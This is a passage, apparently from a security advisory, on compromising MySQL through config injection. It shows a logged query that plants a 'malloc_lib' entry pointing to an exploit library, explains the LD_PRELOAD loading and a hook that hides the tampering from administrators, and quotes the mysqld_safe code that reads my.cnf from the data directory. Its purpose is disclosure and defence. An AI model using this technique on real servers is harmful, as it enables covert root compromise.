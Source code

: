 ~~~~~~~~~~~~~~~~~~~~~~~~~
max_allowed_packet      = 16M

/usr/sbin/mysqld, Version: 5.5.50-0+deb8u1 ((Debian)). started with:
Tcp port: 3306  Unix socket: /var/run/mysqld/mysqld.sock
Time                 Id Command    Argument
160728 17:25:14    40 Query     select '

; injected config entry

[mysqld]
malloc_lib=/tmp/mysql_exploit_lib.so

[separator]

'
160728 17:25:15    40 Query     set global general_log = off


This config contains some redundant information that would normally cause MySQL
to fail to startup during a restart due to parsing issues. 

However, the important part is that the config now contains the section:

[mysqld]
malloc_lib=/tmp/mysql_exploit_lib.so

mysqld_safe will read the shared library path correctly and add it to 
the LD_PRELOAD environment variable before the startup of mysqld daemon. 
The preloaded library can then hook the libc fopen() calls and clean up 
the config before it is ever processed by mysqld daemon in order for it 
to start up successfully so that the compromise goes unnoticed by the
system administrators etc.



~~~~~~~~~~~~~~~~~~~~~~~~~
2) Create new configuration files within a MySQL data directory (writable
by MySQL by default) on _default_ MySQL installs without the need to rely on
improper config permissions.
(SCENARIO 2)


Analysis of the mysqld_safe script has shown that in addition to the 
config locations provided above, mysqld_safe also loads the configuration file 
from the mysql data directory (/var/lib/mysql/my.cnf) by default as can be 
seen below:

----[ /usr/bin/mysqld_safe ]----

[...]
# Try where the binary installs put it
if test -d $MY_BASEDIR_VERSION/data/mysql
then
  DATADIR=$MY_BASEDIR_VERSION/data
  if test -z "$defaults" -a -r "$DATADIR/my.cnf"
  then
    defaults="--defaults-extra-file=$DATADIR/my.cnf"
  fi
[...]

